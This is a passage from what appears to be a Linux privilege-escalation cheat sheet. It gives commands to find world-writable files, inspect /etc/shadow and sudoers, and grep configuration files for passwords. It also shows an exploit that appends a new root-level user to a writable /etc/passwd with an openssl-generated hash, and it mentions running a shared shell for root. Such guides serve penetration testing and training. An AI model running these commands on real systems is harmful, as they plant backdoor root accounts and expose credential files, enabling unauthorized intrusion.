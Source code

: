 Then on the target, execute `/shared/folder/shell` for a root shell.

## Weak File Permissions

### Check Sensitive File Permissions
```bash
# World-writable files
find / -writable -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/dev/*" 2>/dev/null

# World-writable directories
find / -writable -type d -not -path "/proc/*" -not -path "/sys/*" -not -path "/dev/*" 2>/dev/null

# Files owned by current user
find / -user $(whoami) 2>/dev/null

# Critical files permissions
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
ls -la /etc/ssh/sshd_config
```

### Exploiting Writable /etc/passwd
```bash
# Generate password hash
openssl passwd -1 -salt xyz password123

# Add new root user to /etc/passwd
echo "rootuser:$1$xyz$zfGfmT7X/Bw0OMhDJ.3.h/:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Weak Service Configurations

### Check Service Configurations
```bash
# SSH config
cat /etc/ssh/sshd_config

# Apache config
cat /etc/apache2/apache2.conf

# MySQL config
cat /etc/mysql/my.cnf

# Look for passwords in config files
grep -r "password" /etc/ 2>/dev/null
```

### Check Web Server Directories
```bash
# Check common web roots
ls -la /var/www/
ls -la /var/www/html/
ls -la /srv/www/
```
